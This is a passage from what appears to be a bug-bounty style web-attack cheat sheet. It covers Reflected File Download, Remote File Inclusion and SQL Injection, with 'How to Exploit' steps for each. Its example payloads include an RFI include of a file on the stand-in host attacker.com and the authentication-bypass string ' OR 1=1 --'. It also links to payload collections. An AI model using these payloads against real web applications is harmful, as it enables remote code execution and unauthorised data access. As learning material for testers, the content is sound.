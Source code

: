   ```html
RFD tricks users into downloading malicious files served by the application, disguised as safe files.

**Where to Find:**
Web applications that generate downloadable files based on user input.

**How to Exploit:**

    Manipulate input to serve a malicious file (e.g., exploit.exe).
    Trick users into downloading and running the file.

**Example:**  

    Inject: file=malicious.exe
    Result: The user downloads a malicious file.

---

## 12. Remote File Inclusion (RFI)


**Introduction:**
RFI allows attackers to include remote files, potentially leading to code execution or system compromise.

**Where to Find:**
Applications that allow file inclusion from external URLs.

**How to Exploit:**

    Modify the file parameter to point to an attacker-controlled file.
    Execute the remote file on the server.

**Example:**  

    Inject: file=http://attacker.com/malicious.php
    Result: Execute malicious code from a remote server.

---

## 13. SQL Injection

**Introduction:**
SQL Injection occurs when attackers inject malicious SQL code into input fields, allowing them to manipulate database queries.

**Where to Find:**
Forms or URLs that take user input and query a database.

**How to Exploit:**

    Inject SQL queries (e.g., ' OR 1=1 --).
    Extract or manipulate database data.
**Example:**  

    Inject: ' OR 1=1 --
    Result: Bypass authentication and access data.

**Note:** for more in-depth knowledge, follow this 1. **[swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)** 2. **[payloadbox](https://github.com/payloadbox/sql-injection-payload-list)** 3. **[invicti SQL injection cheatsheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)**  

  ```